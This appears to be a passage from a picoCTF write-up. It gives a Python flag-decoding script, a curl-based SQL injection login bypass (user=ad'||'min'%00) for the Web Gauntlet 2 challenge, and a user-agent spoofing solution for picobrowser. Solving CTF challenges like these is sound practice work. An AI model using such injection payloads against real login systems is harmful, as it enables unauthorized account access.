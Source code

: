   ```
    import string
    
    arr_1067 = [
        0xf1, 0xa7, 0xf0, 0x07, 0xed,
    ]
    
    
    def encode(char, index):
        assert (len(arr_1067) == 5)
        var_j = 4 - (index % len(arr_1067))
        var_l = arr_1067[var_j]
        var_n = ctypes.c_int32(var_l << 24).value
        var_o = ctypes.c_int32(var_n >> 24).value
        var_q = ctypes.c_int32(ord(char) ^ var_o).value
        res = ctypes.c_uint8(var_q).value
        return res
    
    
    arr_1024 = [
        0x9d, 0x6e, 0x93, 0xc8, 0xb2, 0xb9, 0x41, 0x8b, 0xc2, 0x97, 0xd4, 0x66, 0xc7, 0x93, 0xc4, 0xd4, 0x61, 0xc2, 0xc6, 0xc9, 0xdd, 0x62,
        0x94, 0x9e, 0xc2, 0x89, 0x32, 0x91, 0x90, 0xc1, 0xdd, 0x33, 0x91, 0x91, 0x97, 0x8b, 0x64, 0xc1, 0x92, 0xc4, 0x90, 0x00, 0x00
    ]
    
    for i in range(len(arr_1024)):
        for c in string.printable:
            if encode(c, i) == arr_1024[i]:
                print(c, end="")
    
    print("")
    
    if __name__ == '__main__':
        pass

    ```


## Web Gauntlet 2

Description：This website looks familiar... Log in as admin Site: http://mercury.picoctf.net:57359/ Filter: http://mercury.picoctf.net:57359/filter.php

思路：这是一个 SQL 注入

1. `curl --data "user=ad'||'min'%00&pass=a" http://mercury.picoctf.net:35178/index.php --cookie "PHPSESSID=5ntoldq0gkiutgqkmkgfqbe5vb" --output -`
2. `curl http://mercury.picoctf.net:35178/filter.php --cookie "PHPSESSID=5ntoldq0gkiutgqkmkgfqbe5vb" | grep picoCTF`


## picobrowser

Description：This website can be rendered only by picobrowser, go and catch the flag! https://jupiter.challenges.picoctf.org/problem/28921/ (link) or http://jupiter.challenges.picoctf.org:28921

思路：`curl --user-agent "picobrowser" "https://jupiter.challenges.picoctf.org/problem/28921/flag"`


## Client-side-again

Description：Can you break into this super secure portal? https://jupiter.challenges.picoctf.org/problem/60786/ (link) or http://jupiter.challenges.picoctf.org:60786
   ```